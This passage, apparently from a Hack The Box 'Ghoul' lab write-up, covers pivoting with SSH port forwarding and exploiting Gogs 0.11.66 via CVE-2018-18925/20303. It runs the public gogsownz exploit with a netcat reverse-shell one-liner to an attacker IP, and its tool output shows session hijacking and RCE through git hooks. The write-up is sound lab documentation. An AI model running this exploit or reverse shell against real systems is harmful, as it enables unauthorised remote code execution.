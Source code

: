 I found `172.18.0.2` running both SSH and some other service on port 3000. At this point it's probably a good idea to start setting up some port forwarding. With the following I can access port 3000 through a double hop:

```
ssh -L 2222:172.20.0.150:22 -i root.key root@10.10.10.101
ssh -i kaneki.backup -p 2222 -L 3000:172.18.0.2:3000 kaneki_pub@127.0.0.1
```

### Exploiting Gogs on the 3rd container

On port 3000 we find a Gogs application running:

![](/assets/images/htb-writeup-ghoul/port3000.png)

The version is shown at the bottom of the page:

![](/assets/images/htb-writeup-ghoul/gogs_version.png)

I tried various credentials and was able to get with pieces of info I found earlier: `AogiriTest / test@aogiri123`

![](/assets/images/htb-writeup-ghoul/gogs_logged.png)

There's nothing on the Gogs application, no repo, nothing interesting.

Next I did some research and found there's two CVE's for this version: CVE-2018-18925 and CVE-2018-20303. Gogs 0.11.66 allows remote code execution because it does not properly validate session IDs, as demonstrated by a ".." session-file forgery in the file session provider in file. The other CVE is a directory traversal in the file-upload functionality can allow an attacker to create a file under data/sessions on the server.

There's already a nice exploit available on Github: [https://github.com/TheZ3ro/gogsownz](https://github.com/TheZ3ro/gogsownz)

```
# python3 gogsownz.py http://127.0.0.1:3000/ --burp -C "AogiriTest:test@aogiri123" -v --preauth --rce "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 4444 >/tmp/f" --cleanup
[!] Created Gogsownz
[i] Starting Gogsownz on: http://127.0.0.1:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.
[!] Creds found.
[!] Logging in...
[+] Performing login
[+] Logged in sucessfully as AogiriTest
[i] Exploiting pre-auth PrivEsc...
[+] Uploading admin session as attachment file
[+] Uploaded successfully, preparing cookies for the Path Traversal
[+] Admin session hijacked, trying to login as admin
[i] Signed in as kaneki, is admin True
[i] Current session cookie: '../attachments/9/4/94918be1-7932-44b5-8490-40ff628acf8c'
[+] Got UserID 1
[+] Repository created sucessfully
[+] Setting Git hooks
[+] Git hooks set sucessfully
[+] Fetching last commit...
[+] Got last commit
[+] Triggering the RCE with a new commit
```
